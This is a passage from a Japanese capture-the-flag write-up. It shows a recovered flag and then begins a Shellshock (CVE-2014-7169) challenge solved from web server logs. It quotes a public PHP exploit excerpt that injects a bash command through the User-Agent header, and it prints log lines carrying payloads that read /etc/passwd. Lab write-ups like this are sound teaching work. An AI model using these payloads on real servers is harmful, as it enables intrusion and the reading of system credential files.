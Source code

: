 ```javascript
    }
    console.log(result);
})();
```
上記のスクリプトで出てきたフラグの断片を一文字ずつ連結させていき、フラグを完成させます。
```
flag{6f24d2267d87b7b232ed0d6ed3ad2924}
```

## PW

### CVE-2014-7169他

Webサーバのログファイルが渡され、そこから攻撃ペイロードを組み立てて/etc/PW-1のファイルを読み取る問題です。
まずは問題文にあるCVEの概要を調べます。
どうやらcgiに関連するCVEのようです。
exploitdbに実際のexploitコードがあったので、見てみます。(https://www.exploit-db.com/exploits/34766)
以下はその一部を抜粋したものです。
```php
$context = stream_context_create(
	array(
		'http' => array(
			'method'  => 'GET',
			'header'  => 'User-Agent: () { :;}; /bin/bash -c "'.$cmd.'"'
		)
	)
);
```
exploitコードからUser-Agentヘッダにペイロードを埋め込めばいいことが分かります。
次にWebサーバのログファイルを見ていきます。
```
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/a.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/b.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/c.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/d.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/e.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/f.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/g.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/h.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/i.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/j.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/k.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/l.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/m.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/n.cgi HTTP/1.1" 200 2007 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/o.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
192.168.123.103 - - [27/Jan/2024:20:02:22 +0900] "GET /cgi-bin/p.cgi HTTP/1.1" 404 453 "-" "() { :;}; echo Content-type:text/plain;echo;/bin/cat /etc/passwd"
```